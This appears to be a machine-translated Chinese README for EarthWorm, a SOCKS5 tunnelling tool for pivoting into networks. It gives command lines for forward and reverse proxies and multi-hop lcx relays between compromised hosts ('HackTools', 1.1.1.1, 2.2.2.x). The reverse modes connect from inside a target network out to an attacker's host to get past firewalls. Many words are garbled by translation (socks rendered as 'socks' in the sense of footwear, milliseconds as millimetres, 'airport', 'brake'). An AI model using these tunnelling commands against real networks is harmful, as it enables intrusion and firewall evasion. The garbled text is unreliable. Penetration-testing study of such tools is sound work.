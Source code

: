 软件介绍】

    EarthWorm是一种用于开启SOCKS v5代理服务的工具，基于标准C开发，可提供多平台间的转接通讯，用于复杂网络环境下的数据转发。
    专有主页：http ://rootkiter.com/EarthWorm/

【使用场景】

    普通网络环境：
        1.目标网络边界存在公网IP且可任意打开监听端口：

                  + --------- + + ------------------- +  
                  | HackTools | ->> | 8888-> 1.1.1.1 |
                  + --------- + + ------------------- +

                a）./ ew -s ssocksd -l 8888
                        //在1.1.1.1主机上通过这个命令开启8888延长的socks代理
                b）HackTools可通过访问1.1.1.1:8888扩展使用1.1.1.1主机提供的代理
                    
        2.目标网络边界不存在公网IP，需要通过反弹方式创建socks代理
            
                                        一台可控公网IP主机可控内网主机
                  + --------- + + -------------------------- + | + --------------- +
                  | HackTools | ->> | 1080-> 1.1.1.1-> 8888 | 防火墙| <-2.2.2.2 |
                  + --------- + + -------------------------- + | + --------------- +

                a）./ew -s rcsocks -l 1080 -e 8888
                            //在1.1.1.1的公网主机添加转接隧道，将1080收到的代理请求转寄反连8888运送的主机
                b）./ew -s rssocks -d 1.1.1.1 -e 8888          
                            //将目标网络的可控边界主机反向连接公网主机

                c）HackTools可通过访问1.1.1.1:1080扩展使用rssocks主机提供的socks5代理服务

    对于二重网络环境：        
        1.获得目标网络内两台主机A，B的权限，情况描述如下：

                A主机：存在公网IP，且自由监听任意端口，无法访问特定资源
                B主机：目标网络内部主机，可访问特定资源，但无法访问公网
                A主机可直连B主机
                
                                        可控边界主机A可访问指定资源的主机B
                  + --------- + + ----------------------- + + ------------- ---- +
                  | HackTools | ->> | 1080-> 2.2.2.2-> | ->> | 9999-> 2.2.2.3 |
                  + --------- + + ----------------------- + + ------------- ---- +

                a）./ew -s ssocksd -l 9999
                        //在2.2.2.3主机上利用ssocksd方式启动9999范围的socks代理
                b）./ew -s lcx_tran -l 1080 -f 2.2.2.3 -g 9999 
                        //将1080英尺收到的袜子代理请求转交给2.2.2.3的主机。
                c）HackTools可通过访问2.2.2.2:1080来使用2.2.2.3主机提供的socks5代理。
                
        2.获得目标网络内两台主机A，B的权限，情况描述如下：

                A主机：目标网络的边界主机，无公网IP，无法访问特定资源。
                B主机：目标网络内部主机，可访问特定资源，却无法回连连公网。

                A主机可直连B主机
                                      一台可控公网IP主机可控内网主机A可访问指定资源的主机B
                  + --------- + + -------------------------- + | + ----------------- + + ----------------- +
                  | HackTools | ->> | 1080-> 1.1.1.1-> 8888 | 防火墙| <-2.2.2.2-> | ->> | 9999-> 2.2.2.3 |
                  + --------- + + -------------------------- + | + ----------------- + + ----------------- +

                a）./ew -s lcx_listen -l 1080 -e 8888
                            //在1.1.1.1公网主机添加转接隧道，将1080收到的代理请求
                            //转交给反连8888机场的主机
                b）./ew -s ssocksd -l 9999
                            //在2.2.2.3主机上利用ssocksd方式启动9999范围的socks代理
                c）./ew -s lcx_slave -d 1.1.1.1 -e 8888 -f 2.2.2.3 -g 9999
                            //在2.2.2.2上，通过工具的lcx_slave方式，打通1.1.1.1:8888和2.2.2.3:9999之间的通讯隧道
                d）HackTools可通过访问1.1.1.1:1080来使用2.2.2.3主机提供的socks5代理


【参数说明】

    目前工具提供六种临界状态，可通过-s参数进行预测，分别为：

        ssocksd rcsocks rssocks   
        lcx_slave lcx_tran lcx_listen

        其中SOCKS5服务的核心逻辑支持由ssocksd和rssocks提供，分别对应正向与反向sosocks代理。

        其余的lcx在服务器之间的通路。
    
    lcx类别管道：

        lcx_slave该管道中断通过反弹方式连接代理请求方，另一侧连接代理提供主机。
        lcx_tran该管道，通过监听本地端口接收代理请求，并转交给代理提供主机。
        lcx_listen该管道，通过侦听本地端口接收数据，将其转换为目标网络回连的代理提供主机。
    
        通过组合lcx类别管道的特性，可以实现多层内网环境下的渗透测试。

        下面是一个三级跳的本地测试示例。。。
        ./ew -s rcsocks -l 1080 -e 8888
        ./ew -s lcx_slave -d 127.0.0.1 -e 8888 -f 127.0.0.1 -g 9999
        ./ew -s lcx_listen -l 9999 -e 7777
        ./ew -s rssocks -d 127.0.0.1 -e 7777

        数据流向为IE-> 1080-> 8888-> 9999-> 7777-> rssocks 

【补充说明】
        1.为了减少网络资源的消耗，程序中添加了超时机制，至少时间为10000毫秒（10秒），
          用户可以通过追加-t参数来调整这个值，单位为毫米。在多级级联功能中，超时机制
          将以隧道中最短的时间为替换值。
        2.单纯从设计原理上讲，多级级联的三个状态可以转发任意以TCP为基础的通讯服务，
          包括远程桌面／ web服务等。
        3.产品包中的ew_for_Arm32在开发者已有平台下（android手机，小米路由器，树莓派）测试无误。
          如果有其他异常环境变量对应的详细细节反馈给作者，刹车更新程序问题。

【联系作者】

    rootkiter@rootkiter.com
    如果您在使用中有什么好想法，或遇到什么BUG，都可以主动联系我。
    我会尽最大所创造的这个工具更加完美，感谢大家的支持。
